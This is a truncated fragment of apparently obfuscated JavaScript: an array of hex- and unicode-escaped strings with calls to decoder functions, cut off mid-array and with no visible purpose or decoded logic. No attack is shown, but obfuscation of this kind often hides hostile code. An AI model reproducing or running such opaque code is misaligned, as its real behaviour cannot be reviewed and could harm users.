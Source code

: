 FNMP_0R=[],e0EqlAe=['{05bdH1_','\u0030\u0075\u005b\u003e\u0038\u002b\u002a\u003a','\u004c\u0021\u0069\u003c\u0026\u004b\u002a\u0039',';q8+K9#P','\x48\x4a\x6d\x40\x7e','\u0041\u0069\u0032\u0040','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x3e\x58\x24\x74\x5f\x34\x6d\x77\x60\x3a\x63','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0070\u0036\u0066\u0039\u005b\u0079\u005e\u0045\u0038\u0068\u0063','\u0051\u004a\u0055\u0078\u0047','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0030\u004b\u0066\u0039\u003d\u0043\u002b\u0055','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x43\x37\x66\x39\x3d\x43\x2b\x55','\x6a\x71\x57\x6e\x29','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x66\x36\x33\x37\x37\x34\x3a\x5f\x35\x74\x79\x3a\x68\x24','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x40\x6e\x40\x37\x77\x39\x61\x30\x64\x5f\x35\x3f\x3f','\x5d\x41\x66\x34\x69\x51\x33\x4f\x5e\x4a\x5a\x3f\x71\x2a\x26\x4d\x7b\x69\x58\x3d','8GCav|Zf|/tQ:|MC~]>nJK"sN0hsPN','\x29\x26\x7a\x6e\x48\x39\x3c','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0041\u002b\u0069\u0066\u0043\u0050','uzxK+|<','8GCav|Zf|/tQ:|MC~]}MJKH}mE6','8GCav|Zf|/tQ:|MC~]bnPF<','8GCav|Zf|/tQ:|MC~]"6,Vj}20Jskx','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0038\u005e\u0042\u0035\u0063\u0029\u003d','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0079\u002b\u0040\u0037\u0077\u0061\u0047\u0068\u004c','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0048\u0025\u0056\u0035\u0046\u0070\u0053\u0051\u005d\u0026\u004b\u0078','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x40\x6e\x69\x66\x42\x34\x24\x23','8GCav|Zf|/tQ:|MC~]@nifB4[El&zrG','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x48\x25\x6e\x59\x72\x34\x64\x68\x24\x68\x6b\x78','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0067\u005e\u006c\u005e\u0065\u0034\u0032\u0030\u005f','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x68\x5e\x44\x4b\x56\x79\x47\x68\x4c','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x4b\x2b\x4a\x4b\x56\x79\x5e\x68\x55\x45\x63','\x38\x47\x43\x61\x76\x7c\x5a\x66\x7c\x2f\x74\x51\x3a\x7c\x4d\x43\x7e\x5d\x67\x5e\x61\x5a\x59\x4f\x32\x30','8GCav|Zf|/tQ:|MC~]bn#^&4$#','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0055\u004c\u0032\u0075\u003c','\u0038\u0047\u0043\u0061\u0076\u007c\u005a\u0066\u007c\u002f\u0074\u0051\u003a\u007c\u004d\u0043\u007e\u005d\u0070\u0036\u0066\u0039\u0036\u0034\u006d\u0045\u002f\u0073\u0059\u006f\u0033',scLZ44x(0x0),'D|"MR+^7l}wq8cO"JAgojMNc','\u0031\u003f\u0055\u0040\u007d\u0037\u0065\u0034\u003d','g?wYd',scLZ44x(0x1),'\u0069\u0060\u0065\u0025\u006e\u007c\u0026\u0050','\u004a\u0036\u0058\u0025','Pxmn)','APE."mq$bd{rj"|9.;S$bNfj)Kng>imI?n*+)','.5p%~','\x6a\x33\x71\x61\x50\x3e\x51\x50','\u0060\u005b\u0045\u0036\u006d\u0037\u0070\u0050','\x36\x60\x55\x40\x34\x7c\x3c','\u0050\u0078\u006d\u006e\u0029','\u0026\u003e\u0068\u0078\u0030\u002e\u0030\u0063','\u005f\u0065\u0034\u002b\u0040\u0038\u0025\u0063','\u0065\u002e\u0071\u006e\u004a\u004b\u0070\u0050','\u0077\u0069\u006a\u006e\u0023\u005e\u0037\u0070\u0053\u004e\u005d\u0026\u004d\u0022\u002c\u006d\u0067\u003f\u002f\u0040\u0059\u0059\u005a\u004f\u0057\u0045\u0030\u0071\u0024\u006f\u002c\u006d\u0057\u0049\u003a\u0025\u0057\u0067\u0077\u0061\u007c\u0054\u0071\u0041\u003d\u0072\u0067\u0069\u006f\u0069\u0036\u002b\u0040',scLZ44x(LaGO_Z(0xc)),scLZ44x(0x3),scLZ44x(LaGO_Z(-0x1)),'\x5a\x7a\x35\x4b\x32\x74\x3c','\x2c\x5b\x36\x2b\x4d\x66\x26\x50','\x69\x60\x30\x6e\x23\x5e\x63\x61\x7d','v[0n)','V`T%','\u006d\u0078\u0070\u0025\u0043\u004a\u0021\u0057\u0057\u0077',LaGO_Z(-0x47),scLZ44x(LaGO_Z(-0xe)),LaGO_Z(-0x47),scLZ44x(0x6),'\x32\x33\x29\x25\x4d\x6b\x3b\x6e\x51\x48\x73\x34\x2a\x28\x52\x3b\x2b\x75',scLZ44x(0x7),'\x2a\x61\x46\x22\x3a\x49\x75\x6a\x6d\x32',scLZ44x(LaGO_Z(-0x4)),'\u002c\u005b\u0058\u0025','\u0034\u0044\u0030\u006e\u0072\u004b\u0031\u0050',scLZ44x(0x9),'\x2e\x5a\x65\x58\x3d\x74\x3f\x72','\u007b\u003f\u0023\u004b\u0059\u0039\u0060\u0050',scLZ44x(LaGO_Z(0x0)),')%]1','\x48\x6c\x69\x50\x64\x30\x62\x3c\x65\x71\x48\x5a\x3e\x28\x6d\x52\x7c\x59\x5b\x5b\x38\x61\x6c\x31\x6c\x35\x41\x5b\x39\x4f\x56\x45\x41\x7b\x34\x26\x56\x79\x6e\x42\x61',scLZ44x(LaGO_Z(-0xa)),'\u0031\u003f\u0028\u006e\u0071\u004b\u0063\u0061\u0038\u0054\u002a\u0078\u0032\u003a\u0075\u0069\u0041\u0069\u0055\u0040','\u0031\u003f\u0055\u0040\u0029\u0059\u005a\u0073\u0038\u0054\u0036\u0074\u0060\u006f\u0076\u0021\u0070\u0063','\u0029\u005b\u003a\u0025\u0034\u007c\u005a\u0066\u003d',LaGO_Z(-0x47),')%]1','\x74\x2c\x3d\x5f\x54\x61\x7c\x5f\x69\x25\x22\x7d\x5d\x40\x5e','JPh0`.U','\x4a\x50\x68\x30\x7a\x67\x74\x7b\x40',scLZ44x(0xc),scLZ44x(LaGO_Z(-0x5)),scLZ44x(0xe),'\u0065\u003c\u0058\u0070','\x4d\x5b\x29\x36\x76','\u0068\u0043\u005b\u0060\u002a\u002b\u0047\u0037\u004f\u0073\u006f\u0053\u0067\u005f\u0066\u003f\u003d\u0032\u005b\u0060\u002a\u002b\u0047\u0037\u004f\u0073\u006f\u0053\u0067\u005f\u0066\u003f\u003d\u0032\u005b\u0060\u002a\u002b\u0047\u0037\u004f\u0073\u006f\u0053\u0067\u005f\u0066\u003f\u003d\u0032\u0039\u003c',scLZ44x(LaGO_Z(0x1)),'\x6f\x69\x4a\x6e\x21\x66\x72\x50','\x3d\x32\x5b\x60\x2a\x2b\x47\x37\x4f\x73\x6f\x53\x67\x5f\x66\x3f\x3d\x32\x5b\x60\x2a\x2b\x47\x37\x4f\x73\x6f\x53\x67\x5f\x66\x3f\x3d\x32\x5b\x60\x2a\x2b\x47\x37\x4f\x73\x6f\x53\x67\x5f\x66\x3f\x41\x3c','\x22\x50\x69\x70\x4e\x3b\